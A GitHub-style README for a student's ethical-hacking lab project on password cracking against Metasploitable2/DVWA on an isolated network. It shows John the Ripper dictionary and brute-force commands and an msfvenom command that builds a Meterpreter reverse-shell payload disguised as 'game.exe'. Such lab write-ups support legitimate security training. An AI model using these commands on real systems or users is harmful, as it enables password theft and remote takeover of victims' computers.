 # Password Security and Cracking Assessment

This is my **Module 7 Ethical Hacking v13** project on password security and cracking, done in a controlled virtual lab for educational purposes only.

## Project Overview
- Assessed password security in a small lab network.
- Understood password hashing (MD5, SHA-256).
- Extracted and cracked hashes using **John the Ripper**.
- Tested dictionary and brute force attacks.
- Created and tested **Metasploit payloads**.
- Gave recommendations to improve password security.

## Lab Setup
- **Attacker**: Kali Linux
- **Target**: Metasploitable2 / DVWA
- **Network**: Host-only (isolated)

## Tools Used
- John the Ripper
- Metasploit Framework
- Rockyou wordlist

## Key Commands
```bash
# Dictionary attack
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Brute force attack
john hashes.txt --incremental

# Create payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > game.exe
